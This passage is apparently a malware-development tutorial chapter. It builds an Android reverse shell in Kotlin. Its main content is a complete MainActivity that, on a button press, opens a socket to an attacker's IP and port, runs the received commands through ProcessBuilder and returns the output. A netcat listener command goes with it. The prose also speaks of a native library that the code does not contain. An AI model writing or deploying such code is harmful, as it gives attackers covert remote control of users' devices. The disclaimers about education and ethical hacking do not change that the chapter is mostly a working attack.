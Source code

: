 \newpage
\subsection{8. mobile malware development trick. Socket development. Simple Android (Java/Kotlin) example.}

﷽

![malware](./images/7/rev2.png){width="80%"}      

On Android, you can write a reverse shell in Kotlin that will work within the permissions available to the user. Such a reverse shell can use Android's capabilities to interact with a remote server via a socket and does not require access to the file system.        

### practical example

We can use sockets to create a communication channel with a remote server, and send commands through this channel. Instead of using the `execve()` command, we will execute commands using *Java ProcessBuilder*.     

Your project looks like there (`HackRev2` in my case):     

![malware](./images/7/2025-05-17_12-39.png){width="80%"}       

Let's start by looking at the Android app. We'll create a simple button that triggers a Toast message and also loads a native library that contains the reverse shell functionality.      

Simple reverse shell example in Kotlin:     

```kotlin
package com.example.hackrev

import android.os.Bundle
import android.widget.Button
import android.widget.Toast
import androidx.activity.ComponentActivity
import java.io.BufferedReader
import java.io.InputStreamReader
import java.io.OutputStream
import java.net.Socket

class MainActivity : ComponentActivity() {
    private lateinit var meowButton: Button

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        meowButton = findViewById(R.id.meowButton)
        meowButton.setOnClickListener {
            Toast.makeText(
                applicationContext,
                "Meow! Reverse Shell Activated!",
                Toast.LENGTH_SHORT
            ).show()

            // start the reverse shell in a background thread
            Thread {
                startReverseShell("172.16.16.251", 4444) // your attacker's IP and port
            }.start()
        }
    }

    private fun startReverseShell(remoteHost: String, remotePort: Int) {
        try {
            // create a socket connection to the attacker's machine
            val socket = Socket(remoteHost, remotePort)
            val inputStream = socket.getInputStream()
            val outputStream = socket.getOutputStream()

            val reader = BufferedReader(InputStreamReader(inputStream))
            val writer = outputStream.bufferedWriter()

            // send a welcome message to the attacker
            writer.write("connected to android reverse shell! meow =^..^=\n")
            writer.flush()

            // create a process to run shell commands
            while (true) {
                // read commands from the attacker
                val command = reader.readLine()

                if (command == null || command.equals("exit", ignoreCase = true)) {
                    break
                }

                // execute the command
                val process = ProcessBuilder(command.split(" ")).start()

                // get the process output
                val processReader = BufferedReader(InputStreamReader(process.inputStream))
                val processOutput = StringBuilder()
                var line: String?
                while (processReader.readLine().also { line = it } != null) {
                    processOutput.append(line).append("\n")
                }

                // send back the output of the command to the attacker
                writer.write(processOutput.toString())
                writer.flush()
            }

            // close resources
            writer.close()
            reader.close()
            socket.close()

        } catch (e: Exception) {
            e.printStackTrace()
        }
    }
}
```

We create a socket to connect to the remote host using `Socket(remoteHost, remotePort)`.      

This allows us to establish two-way communication between the device and the attacker's server.     

Then, we use `BufferedReader` to read commands sent over the socket (for example, the command the attacker wants to run on the device).     

The commands are executed using `ProcessBuilder`. This allows us to run processes on Android, but since we don't have file system access, we will limit ourselves to standard commands that can be executed within the bash shell or similar.        

Then sending back results: the result of the command execution is read and sent back over the socket, so the attacker can see the output.     

After finishing the work, we close the socket connection to finish the session.       

The socket connection is established using the remote host IP and port defined in the code, in my case IP `172.16.16.251`:       

![malware](./images/7/2025-05-17_11-43.png){width="80%"}       

This is a "dirty PoC", on some devices it may not work, this is due to limitations in Android.      

### demo

On the attacker's machine, as usually use netcat or any other tool to listen for the incoming connection:    

```bash
nc -nlvp 4444
```

this will listen on port 4444 for incoming connections from the Android device:    

![malware](./images/7/2025-05-17_11-44.png){width="80%"}       

After installing the app on the target device, click the button to trigger the reverse shell:     

![malware](./images/7/2025-05-17_11-47.png){width="80%"}       

![malware](./images/7/2025-05-17_12-47-32.jpg){height="30%"}     

![malware](./images/7/2025-05-17_12-25_1.png){width="80%"}     

![malware](./images/7/2025-05-17_12-25.png){width="80%"}     

If everything is set up correctly, the attacker's Netcat listener will receive the shell from the Android device.     

![malware](./images/7/rev2.png){width="80%"}      

In this tutorial, we’ve walked through how to build a simple reverse shell that works on an Android device using Kotlin. By combining Kotlin for the frontend interface and native logic for the reverse shell functionality, we created an app that listens for user input to trigger a remote shell.      

This example highlights how an Android app can be used to silently execute malicious code, opening the door to remote control over the device. Understanding these techniques is critical for both penetration testers and security researchers to help secure Android applications against such exploits.      

Keep in mind that this method is a basic demonstration for educational purposes, and ethical hacking practices should always be followed when testing security.      

I hope this section with practical example is useful for entry level malware researchers, red teamers, spreads awareness to the blue teamers of this simple example.    

[Android Studio](https://developer.android.com/studio)     
[Socket](https://developer.android.com/reference/java/net/Socket)      
[InputStreamReader](https://developer.android.com/reference/java/io/InputStreamReader?hl=en)      
[BufferedReader](https://developer.android.com/reference/java/io/BufferedReader?hl=en)     
[ProcessBuilder](https://developer.android.com/reference/java/lang/ProcessBuilder?hl=en)     